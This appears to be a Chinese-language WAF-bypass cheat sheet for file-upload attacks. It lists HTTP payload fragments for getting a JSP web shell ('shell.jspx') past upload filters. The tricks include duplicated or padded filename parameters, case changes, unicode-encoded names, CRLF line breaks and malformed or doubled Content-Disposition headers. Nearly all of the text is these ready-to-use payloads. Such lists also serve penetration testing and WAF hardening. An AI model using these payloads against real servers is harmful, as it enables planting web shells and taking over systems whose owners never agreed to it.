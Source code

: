 - 重写
```http
filename=shell.jpg;filename=shell.jspx;
filename=shell.jspx;filename=shell.jpg;
```

- 大小写变化
```http
FileName=shell.jspx.jsp'
```

- 参数污染
```http
FileName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaashell.jspx.jsp'
FileName =shell.jspx（加空格）
filename===="shell.jspx.jsp1"（加等号）
FileName =shell.jspx（前后加空格，中间也可以加特殊符号fuzz）
```

- 文件名字编码（filename一般为后端接收参数，编码了可能识别不到，这个就看情况）
```http
filename=\u0073\u0068\u0065\u006c\u006c\u002e\u006a\u0073\u0070
```

- 回车换行（有时候确实挺好用的，任意位置都可以试一下）
```http
FileName=shell.jspx.
jsp


File
Name=shell.jspx.jsp
```
#### name 改造
name也可以任意改造，改造的方法和filename差不多，就不重复发了，主要是思路重要。
其他的比如奇奇怪怪的正则需要用到的特殊字符都可以在文件名中fuzz一下，看看能否打断waf规则，也就是把我们fuzz后缀的再跑一次，或者再找点其他的正则字母。
#### http 头部格式改造

- Content-Disposition
   - 溢出绕过
```http
Content-Disposition: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
```

   - 回车换行绕过(不要将固定字符打散)
```http
Content-Disposition:
form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
```

   - 双写绕过
```http
Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx;
Content-Disposition: form-data; name="file"; filename=shell.jpg;filename=shell.jspx.jpg;
```
